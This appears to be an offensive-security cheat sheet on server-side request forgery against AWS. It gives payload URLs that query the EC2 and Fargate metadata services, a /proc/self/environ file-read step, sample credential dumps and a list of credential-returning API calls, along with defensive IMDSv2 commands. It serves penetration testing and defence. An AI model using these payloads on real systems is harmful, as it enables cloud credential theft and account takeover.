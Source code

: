 # AWS - Metadata SSRF

> AWS released additional security defences against the attack.

:warning: Only working with IMDSv1.

Enabling IMDSv2

```ps1
aws ec2 modify-instance-metadata-options --instance-id <INSTANCE-ID> --profile <AWS_PROFILE> --http-endpoint enabled --http-token required
```

In order to use **IMDSv2** you must provide a token.

```powershell
export TOKEN=`curl -X PUT -H "X-aws-ec2-metadata-token-ttl-seconds: 21600" "http://169.254.169.254/latest/api/token"`
curl -H "X-aws-ec2-metadata-token:$TOKEN" -v "http://169.254.169.254/latest/meta-data"
```

## Method for Elastic Cloud Compute (EC2)

Amazon provides an internal service that allows every EC2 instance to query and retrieve metadata about the host. If you discover an SSRF vulnerability running on an EC2 instance, try to fetch the content from 169.254.169.254.

1. Access the IAM : [http://169.254.169.254/latest/meta-data/](http://169.254.169.254/latest/meta-data/)

    ```powershell
    ami-id
    ami-launch-index
    ami-manifest-path
    block-device-mapping/
    events/
    hostname
    iam/
    identity-credentials/
    instance-action
    instance-id
    ```

2. Find the name of the role assigned to the instance : [http://169.254.169.254/latest/meta-data/iam/security-credentials/](http://169.254.169.254/latest/meta-data/iam/security-credentials/)
3. Extract the role's temporary keys : [http://169.254.169.254/latest/meta-data/iam/security-credentials/<IAM_USER_ROLE_HERE>/](http://169.254.169.254/latest/meta-data/iam/security-credentials/<IAM_USER_ROLE_HERE>/)

    ```powershell
    {
    "Code" : "Success",
    "LastUpdated" : "2019-07-31T23:08:10Z",
    "Type" : "AWS-HMAC",
    "AccessKeyId" : "ASIAREDACTEDXXXXXXXX",
    "SecretAccessKey" : "XXXXXXXXXXXXXXXXXXXXXX",
    "Token" : "AgoJb3JpZ2luX2VjEDU86Rcfd/34E4rtgk8iKuTqwrRfOppiMnv",
    "Expiration" : "2019-08-01T05:20:30Z"
    }
    ```

## Method for Container Service (Fargate)

1. Fetch the **AWS_CONTAINER_CREDENTIALS_RELATIVE_URI** variable from `https://awesomeapp.com/download?file=/proc/self/environ`

    ```powershell
    JAVA_ALPINE_VERSION=8.212.04-r0
    HOSTNAME=bbb3c57a0ed3SHLVL=1PORT=8443HOME=/root
    AWS_CONTAINER_CREDENTIALS_RELATIVE_URI=/v2/credentials/d22070e0-5f22-4987-ae90-1cd9bec3f447
    AWS_EXECUTION_ENV=AWS_ECS_FARGATEMVN_VER=3.3.9JAVA_VERSION=8u212AWS_DEFAULT_REGION=us-west-2
    ECS_CONTAINER_METADATA_URI=http://169.254.170.2/v3/cb4f6285-48f2-4a51-a787-67dbe61c13ffPATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/lib/jvm/java-1.8-openjdk/jre/bin:/usr/lib/jvm/java-1.8-openjdk/bin:/usr/lib/mvn:/usr/lib/mvn/binLANG=C.UTF-8AWS_REGION=us-west-2Tag=48111bbJAVA_HOME=/usr/lib/jvm/java-1.8-openjdk/jreM2=/usr/lib/mvn/binPWD=/appM2_HOME=/usr/lib/mvnLD_LIBRARY_PATH=/usr/lib/jvm/java-1.8-openjdk/jre/lib/amd64/server:/usr/lib/jvm/java-1.8-openjdk/jre/lib/amd64:/usr/lib/jvm/java-1.8-openjd
    ```

2. Use the credential URL to dump the AccessKey and SecretKey : `https://awesomeapp.com/forward?target=http://169.254.170.2/v2/credentials/d22070e0-5f22-4987-ae90-1cd9bec3f447`

    ```powershell
    {
        "RoleArn": "arn:aws:iam::953574914659:role/awesome-waf-role",
        "AccessKeyId": "ASIAXXXXXXXXXX",
        "SecretAccessKey": "j72eTy+WHgIbO6zpe2DnfjEhb[REDACTED]TBKcemfrIygt",
        "Token": "FQoGZXIvYXdzEMj/////...jHsYXsBQ==",
        "Expiration": "2019-09-18T04:05:59Z"
    }
    ```

## AWS API calls that return credentials

- [chime:createapikey](https://docs.aws.amazon.com/service-authorization/latest/reference/list_amazonchime.html)
- [codepipeline:pollforjobs](https://docs.aws.amazon.com/codepipeline/latest/APIReference/API_PollForJobs.html)
- [cognito-identity:getopenidtoken](https://docs.aws.amazon.com/cognitoidentity/latest/APIReference/API_GetOpenIdToken.html)
- [cognito-identity:getopenidtokenfordeveloperidentity](https://docs.aws.amazon.com/cognitoidentity/latest/APIReference/API_GetOpenIdTokenForDeveloperIdentity.html)
- [cognito-identity:getcredentialsforidentity](https://docs.aws.amazon.com/cognitoidentity/latest/APIReference/API_GetCredentialsForIdentity.html)
- [connect:getfederationtoken](https://docs.aws.amazon.com/connect/latest/APIReference/API_GetFederationToken.html)
- [connect:getfederationtokens](https://docs.aws.amazon.com/connect/latest/APIReference/API_GetFederationToken.html)
- [ecr:getauthorizationtoken](https://docs.aws.amazon.com/AmazonECR/latest/APIReference/API_GetAuthorizationToken.html)
- [gamelift:requestuploadcredentials](https://docs.aws.amazon.com/gamelift/latest/apireference/API_RequestUploadCredentials.html)
- [iam:createaccesskey](https://docs.aws.amazon.com/IAM/latest/APIReference/API_CreateAccessKey.html)
- [iam:createloginprofile](https://docs.aws.amazon.com/IAM/latest/APIReference/API_CreateLoginProfile.html)
- [iam:createservicespecificcredential](https://docs.aws.amazon.com/IAM/latest/APIReference/API_CreateServiceSpecificCredential.html)
- [iam:resetservicespecificcredential](https://docs.aws.amazon.com/IAM/latest/APIReference/API_ResetServiceSpecificCredential.html)
- [iam:updateaccesskey](https://docs.aws.amazon.com/IAM/latest/APIReference/API_UpdateAccessKey.html)
- [lightsail:getinstanceaccessdetails](https://docs.aws.amazon.com/lightsail/2016-11-28/api-reference/API_GetInstanceAccessDetails.html)
- [lightsail:getrelationaldatabasemasteruserpassword](https://docs.aws.amazon.com/lightsail/2016-11-28/api-reference/API_GetRelationalDatabaseMasterUserPassword.html)
- [rds-db:connect](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html)
- [redshift:getclustercredentials](https://docs.aws.amazon.com/redshift/latest/APIReference/API_GetClusterCredentials.html)
- [sso:getrolecredentials](https://docs.aws.amazon.com/singlesignon/latest/PortalAPIReference/API_GetRoleCredentials.html)
- [mediapackage:rotatechannelcredentials](https://docs.aws.amazon.com/mediapackage/latest/apireference/channels-id-credentials.html)
- [mediapackage:rotateingestendpointcredentials](https://docs.aws.amazon.com/mediapackage/latest/apireference/channels-id-ingest_endpoints-ingest_endpoint_id-credentials.html)
- [sts:assumerole](https://docs.aws.amazon.com/cli/latest/reference/sts/assume-role.html)
- [sts:assumerolewithsaml](https://docs.aws.amazon.com/cli/latest/reference/sts/assume-role-with-saml.html)
- [sts:assumerolewithwebidentity](https://docs.aws.amazon.com/cli/latest/reference/sts/assume-role-with-web-identity.html)
- [sts:getfederationtoken](https://docs.aws.amazon.com/cli/latest/reference/sts/get-federation-token.html)
- [sts:getsessiontoken](https://docs.aws.amazon.com/cli/latest/reference/sts/get-session-token.html)

## References

- [AWS API calls that return credentials - kmcquade](https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a)
- [Cloud security instance metadata - PumaScan - Eric Johnson - 09 Oct 2019](https://pumascan.com/resources/cloud-security-instance-metadata/)
- [Getting started with Version 2 of AWS EC2 Instance Metadata service (IMDSv2) - Sunesh Govindaraj - Nov 25, 2019](https://blog.appsecco.com/getting-started-with-version-2-of-aws-ec2-instance-metadata-service-imdsv2-2ad03a1f3650)
- [Privilege escalation in the Cloud: From SSRF to Global Account Administrator - Maxime Leblanc - Sep 1, 2018](https://medium.com/poka-techblog/privilege-escalation-in-the-cloud-from-ssrf-to-global-account-administrator-fd943cf5a2f6)
- [Getting shell and data access in AWS by chaining vulnerabilities - Riyaz Walikar - Aug 29, 2019](https://blog.appsecco.com/getting-shell-and-data-access-in-aws-by-chaining-vulnerabilities-7630fa57c7ed)
